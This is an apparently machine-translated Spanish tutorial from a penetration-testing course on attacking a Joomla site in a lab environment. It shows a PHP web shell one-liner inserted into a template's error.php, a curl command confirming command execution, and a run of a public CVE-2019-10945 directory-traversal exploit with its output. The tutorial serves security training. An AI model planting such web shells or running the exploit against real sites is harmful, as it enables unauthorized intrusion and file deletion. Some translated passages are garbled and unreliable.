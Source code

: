 # Attacking Joomla

Ahora sabemos que estamos tratando con un sitio de comercio electrónico de Joomla. Si podemos obtener acceso, podemos aterrizar en el entorno interno del cliente y comenzar a enumerar el entorno de dominio interno. Al igual que WordPress y Drupal, Joomla ha tenido una buena cantidad de vulnerabilidades contra la aplicación central y las extensiones vulnerables. Además, como los demás, es posible obtener una ejecución de código remoto si podemos iniciar sesión en el backend admin.

---

# **Abusar de la funcionalidad incorporada**

Durante la fase de enumeración de Joomla y la búsqueda general de la investigación de datos de la compañía, podemos encontrar credenciales filtradas que podemos usar para nuestros propósitos. Usando las credenciales que obtuvimos en los ejemplos de la última sección,`admin:admin`, iniciamos sesión en el backend objetivo en`http://dev.inlanefreight.local/administrator`. Una vez iniciado sesión, podemos ver muchas opciones disponibles para nosotros. Para nuestros propósitos, nos gustaría agregar un fragmento de código PHP para obtener RCE. Podemos hacer esto personalizando una plantilla.

Si recibe un error que indica "se ha producido un error. Llame a un formato de función de miembro () en NULL" Después de iniciar sesión, navegue a "http: //dev.inlanefreight.local/administrator/index.php? Opción = comp_plugins" y deshabilite el tapón "iconado rápido - php vers" Esto permitirá que el panel de control se muestre correctamente.

![](https://academy.hackthebox.com/storage/modules/113/joomla_admin.png)

Desde aquí, podemos hacer clic en`Templates`en la parte inferior izquierda debajo`Configuration`Para sacar el menú de plantillas.

![](https://academy.hackthebox.com/storage/modules/113/joomla_templates.png)

A continuación, podemos hacer clic en un nombre de plantilla. Elegamos`protostar`bajo el`Template`Encabezado de columna. Esto nos traerá al`Templates: Customise`página.

![](https://academy.hackthebox.com/storage/modules/113/joomla_customise.png)

Finalmente, podemos hacer clic en una página para sacar la fuente de la página. Es una buena idea tener el hábito de usar nombres de archivos y parámetros no estándar para que nuestros shells web no sean fácilmente accesibles para un atacante "conducir" durante la evaluación. También podemos proteger e incluso limitar el acceso a nuestra dirección IP de origen. Además, siempre debemos recordar limpiar los shells web tan pronto como terminemos con ellos, pero aún incluir el nombre del archivo, el hash de archivo y la ubicación en nuestro informe final al cliente.

Elegamos el`error.php`página. Agregaremos un PHP One-Liner para obtener la ejecución del código de la siguiente manera.

Código:php

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

```

![](https://academy.hackthebox.com/storage/modules/113/joomla_edited.png)

Una vez que esto esté dentro, haga clic en`Save & Close`en la parte superior y confirme la ejecución del código usando`cURL`.

Atacando a Joomla

```
xnoxos@htb[/htb]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=iduid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Desde aquí, podemos actualizar a un shell inverso interactivo y comenzar a buscar vectores de escalada de privilegios locales o centrarnos en el movimiento lateral dentro de la red corporativa. Debemos estar seguros, una vez más, para anotar este cambio para nuestro informe Apéndices y hacer todo lo posible para eliminar el fragmento de PHP del`error.php`página.

---

# **Aprovechando vulnerabilidades conocidas**

Al momento de escribir, ha habido[426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html)Vulnerabilidades relacionadas con Joomla que recibieron CVE. Sin embargo, solo porque se reveló una vulnerabilidad y recibió una CVE no significa que sea explotable o que esté disponible un exploit público de POC en funcionamiento. Al igual que con WordPress, las vulnerabilidades críticas (como las ejecución del código remoto) que afectan el núcleo de Joomla son raras. Buscar un sitio como`exploit-db`Muestra más de 1.400 entradas para Joomla, con la gran mayoría de las extensiones de Joomla.

Involucremos en una vulnerabilidad central de Joomla que afecta la versión`3.9.4`, que nuestro objetivo`http://dev.inlanefreight.local/`se descubrió que estaba funcionando durante nuestra enumeración. Revisando el Joomla[descargas](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html)página, podemos ver eso`3.9.4`fue lanzado en marzo de 2019. Aunque está desactualizado como estamos en Joomla`4.0.3`A partir de septiembre de 2021, es completamente posible encontrarse con esta versión durante una evaluación, especialmente contra una gran empresa que puede no mantener un inventario de aplicación adecuado y no es consciente de su existencia.

Investigando un poco, encontramos que esta versión de Joomla probablemente sea vulnerable a[CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945)que es una vulnerabilidad de eliminación de archivos de transversal y autenticado de directorio. Podemos usar[este](https://www.exploit-db.com/exploits/46710)Explotar el script para aprovechar la vulnerabilidad y enumerar el contenido de la raíz web y otros directorios. Se puede encontrar la versión python3 de este mismo script[aquí](https://github.com/dpgg101/CVE-2019-10945). También podemos usarlo para eliminar archivos (no recomendados). Esto podría conducir al acceso a archivos confidenciales, como un archivo de configuración o script que contiene credenciales si podemos acceder a él a través de la URL de la aplicación. Un atacante también podría causar daños al eliminar los archivos necesarios si el usuario del servidor web tiene los permisos adecuados.

Podemos ejecutar el script especificando el`--url`, `--username`, `--password`, y`--dir`banderas. Como Pentesters, esto solo nos sería útil si el portal de inicio de sesión de administrador no es accesible desde el exterior ya que, armado con credibilidades de administración, podemos obtener la ejecución de código remoto, como vimos anteriormente.

Atacando a Joomla

```
xnoxos@htb[/htb]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion# Web Site: Haboob.sa# Email: research@haboob.sa# Versions: Joomla 1.5.0 through Joomla 3.9.4# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945     _    _          ____   ____   ____  ____
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ <
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/

administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt

```

---

# **Avanzar**

A continuación, echemos un vistazo a Drupal, que, aunque posee una parte mucho menor del mercado de CMS, todavía es utilizada por las empresas de todo el mundo.